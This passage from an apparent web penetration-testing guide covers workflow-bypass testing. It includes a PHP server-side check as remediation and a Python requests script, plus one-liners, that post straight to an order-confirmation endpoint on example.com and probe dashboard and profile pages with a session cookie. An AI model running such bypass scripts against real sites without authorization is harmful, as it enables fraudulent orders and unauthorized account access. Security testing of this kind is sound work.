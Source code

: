 **Example Vulnerable Finding**:
- Modified form action -> Response: `Order Confirmed`.

**Remediation**:
- Avoid client-side workflow logic (PHP):
  ```php
  if ($_SERVER['REQUEST_URI'] === '/confirm' && !$_SESSION['payment_completed']) {
      header('Location: /payment');
      exit;
  }
  ```

**Tip**: Save screenshots of modified forms or responses. Organize findings in a report with timestamps, test descriptions, and evidence of vulnerabilities (e.g., HTML changes).

### 5. Script Workflow Bypasses with Python Requests

**Objective**: Automate tests to bypass workflow steps and evaluate server-side validation.

**Steps**:
1. **Write Python Script**:
   - Create a script to access later workflow steps directly.
2. **Run Script**:
   - Execute to test for unauthorized access.
3. **Analyze Responses**:
   - Check for successful bypasses.

**Python Script**:
```python
import requests
import sys

url = 'http://example.com/confirm'
data = {'order_id': '123'}
cookies = {'session': 'abc123'}
headers = {'User-Agent': 'Mozilla/5.0'}

try:
    # Attempt order confirmation bypass
    response = requests.post(url, data=data, cookies=cookies, headers=headers, timeout=5)
    print(f"Confirm Status: {response.status_code}")
    print(f"Confirm Response: {response.text[:100]}")
    
    # Attempt dashboard access
    dashboard_url = 'http://example.com/dashboard'
    response = requests.get(dashboard_url, cookies=cookies, headers=headers, timeout=5)
    print(f"Dashboard Status: {response.status_code}")
    print(f"Dashboard Response: {response.text[:100]}")
except requests.RequestException as e:
    print(f"Error: {e}")
    sys.exit(1)
```

**Python Commands**:
- **Command 1**: Run the script:
  ```bash
  python3 test_workflow_bypass.py
  ```
- **Command 2**: Test profile access:
  ```bash
  python3 -c "import requests; url='http://example.com/api/v1/user/profile'; cookies={'session': 'abc123'}; r=requests.get(url, cookies=cookies, timeout=5); print(r.status_code, r.text[:100])"
  ```
